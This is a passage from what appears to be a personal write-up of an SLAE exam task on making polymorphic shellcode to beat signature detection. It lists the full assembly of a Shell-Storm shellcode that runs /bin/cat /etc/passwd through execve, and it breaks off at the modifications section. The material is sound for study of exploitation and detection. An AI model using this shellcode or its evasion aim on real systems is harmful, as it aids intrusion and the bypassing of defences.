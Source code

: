 ```yaml
---
title: SLAE Exam 6 Polymorphic Shellcode
category: Security
tags: [slae, shell, assembly, programming]
---
```


So, I've been on a slight hiatus from the SLAE because my lab time for OSCE began right as I was finishing this up. So, I put this on pause to complete that. Don't worry, an OSCE write-up is coming :) But for now, let's finish out SLAE nice a strong. Today, we're going to look at morphing shellcode to break the signature detection that might catch it.

## Problem Statement

* Take up 3 shellcodes from [Shell-Storm](http://shell-storm.org) and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger than 150% of the existing shellcode
* Bonus points for making it shorter in length than the original


## Shellcode \#1

The first [shellcode](http://shell-storm.org/shellcode/files/shellcode-571.php) we'll take is a simple 42-byte shellcode that calls `/bin/cat /etc/passwd` via the `execve` system call.

**_original shellcode_**

```
xor eax,eax
cdq

push edx
push 0x7461632f
push 0x6e69622f
mov ebx,esp

push edx

push 0x64777373
push 0x61702f2f
push 0x6374652f
mov ecx,esp

mov al,0xb
push edx
push ecx
push ebx
mov ecx,esp
int 0x80
```

#### Modifications
